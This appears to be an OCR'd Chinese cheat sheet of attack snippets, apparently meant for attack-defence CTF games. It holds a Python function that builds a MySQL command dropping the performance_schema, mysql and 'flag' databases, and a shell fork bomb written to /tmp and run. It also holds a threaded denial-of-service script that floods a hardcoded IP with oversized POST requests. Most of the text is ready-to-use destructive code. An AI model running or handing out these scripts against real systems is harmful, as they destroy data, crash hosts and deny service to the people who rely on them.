 删除数据库

```
#!/usr/bin/env python3
  import base64
  def rm_db(db_user,my_db_passwd):
      cmd = "/usr/bin/mysql -h localhost -u%s %s -e '"%(db_user,my_db_passwd)
      db_name = ['performance_schema','mysql','flag']
      for db in db_name:
          cmd += "drop database %s;"%db
      cmd += "'"
      return cmd
```

fork_bomb

```
#!/bin/sh
/bin/echo '.() { .|.& } && .' > /tmp/aaa;/bin/bash /tmp/aaa;
```

DOS脚本（非必要最好不要用）

```
import socket
import time
import threading

max=90000000
port=80                 #端口
host="192.168.92.154"   #IP
page="/index.php"

bag=("POST %s HTTP/1.1\r\n"
    "host: %s\r\n"
    "Content-Length: 1000000000\r\n"
    "Cookie: 1998\r\n"
    "\r\n" % (page,host))

socks = []

def connect():
    global socks
    for i in range(0,max):
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        try:
            s.connect((host,port))
            s.send(bag.encode("utf-8"))
            socks.append(s)
        except Exception as ex:
            time.sleep(1)

def send():
    global socks
    while True:
        for s in socks:
            try:
                print("攻击中....")
            except Exception as ex:
                socks.remove(s)
                s.close()
        time.sleep(0.1)

One = threading.Thread(target=connect,args=())
Two = threading.Thread(target=send,args=())
One.start()
Two.start()
```